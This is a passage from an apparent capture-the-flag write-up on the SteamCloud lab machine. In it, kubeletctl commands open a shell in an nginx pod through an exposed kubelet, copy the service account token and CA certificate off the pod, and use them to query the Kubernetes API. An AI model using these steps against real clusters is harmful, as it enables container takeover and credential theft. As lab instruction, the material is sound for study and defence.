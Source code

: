 It's a success. Now we will open shell inside:

```sh
> kubeletctl -s 10.10.11.133 exec "/bin/bash" -p nginx -c nginx
```

We may have a root access, but it's only for a single container (nginx).
Now we will work to get root shell on SteamCloud.

# Root SteamCloud shell

First, we will find ServiceAccout object, which is managed by Kubernetes
and provides identity within the pod. It gives three typical directories:

```sh
/run/secrets/kubernetes.io/serviceaccount
/var/run/secrets/kubernetes.io/serviceaccount
/secrets/kubernetes.io/serviceaccout
```

Inside the pod we got access to:
```bash
> ls /run/secrets/kubernetes.io/serviceaccount
ca.crt	namespace  token
```

Following will be useful:  
- ca.crt - it's the ca certificate to check kubernetes communications  
- token - it contains the service token of the current pod  

We will save these on our attack machine:

```bash
> kubeletctl -s 10.10.11.133 exec \
    "cat /run/secrets/kubernetes.io/serviceaccount/ca.crt" \
    -p nginx -c nginx | tee ca.crt


> kubeletctl -s 10.10.11.133 exec \
    "cat /run/secrets/kubernetes.io/serviceaccount/token" \
    -p nginx -c nginx | tee token
```

You can save token to $token variable, to save yourself copy-pasting:

```bash
> export token=$(kubeletctl -s 10.10.11.133 \
  exec "cat /run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx)
```

Now, we try to get information from API pod with auth data we retrieved:

```bash
> kubectl --server https://10.10.11.133:8443\
    --certificate-authority=ca.crt --token=$token get pod
```

Next, we have to see what can we do with these credentials:
